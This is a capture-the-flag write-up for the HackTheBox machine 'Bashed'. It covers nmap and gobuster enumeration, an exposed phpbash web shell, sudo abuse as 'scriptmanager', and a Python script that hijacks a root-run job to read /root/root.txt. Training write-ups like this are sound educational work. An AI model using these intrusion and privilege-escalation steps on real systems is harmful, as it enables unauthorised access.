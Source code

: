 ```yaml
---
layout: post
title: Bashed (10.10.10.68) Writeup
description: >
  Hackthebox Bashed Writeup
image: /assets/img/bashed.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag

First I start with an nmap scan
``` 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the webpage I see a nice custom webpage. A quick look aorund does reveal anything obvious

![home.png](../../resources/babe181301b2462383c3d75b7bcb6c3b.png)

Running a gobuster reveals some directories.
```bash
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory I will see two files. <b>phpbash.min.php</b> and <b>phpbash.php</b> 

![dev.png](../../resources/fd190a94f4c944a6a1ff0e47e4d8bb77.png)

Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> I see that the I can run sudo asa the user <b>scriptmanager</b>.

```bash
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> I can see there are two files in there but I are unable to read them. This is where I will use scriptmanagers sudo priviledges

```python
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files I can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What I are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so I can then read it. This can be achieved with the short script below
```python
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now I wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
